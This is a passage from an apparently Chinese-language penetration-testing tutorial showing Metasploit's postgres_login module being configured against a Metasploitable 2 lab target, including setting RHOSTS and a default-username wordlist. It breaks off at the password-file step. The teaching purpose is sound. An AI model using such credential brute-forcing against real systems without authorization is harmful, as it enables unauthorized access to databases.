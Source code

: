 （4）查看 PostgreSQL 模块的所有选项。执行命令如下所示：

![177-01](img/00292.jpg)

以上信息显示了 postgres_login 模块中可配置的选项。根据用户的攻击情况，选择相应选项进行配置。

（5）使用 RHOST 选项设置目标系统（本例中为 Metasploitable 2）。执行命令如下所示：

```
msf auxiliary(postgres_login) > set RHOSTS 192.168.41.142
RHOST => 192.168.41.142 
```

（6）指定用户名文件。执行命令如下所示：

```
msf auxiliary(postgres_login) > set user_file /usr/share/metasploit- framework/data/wordlists/ postgres_default_user.txt
user_file => /usr/share/metasploit-framework/data/wordlists /postgres_default_user.txt 
```

（7）指定密码文件。执行命令如下所示：
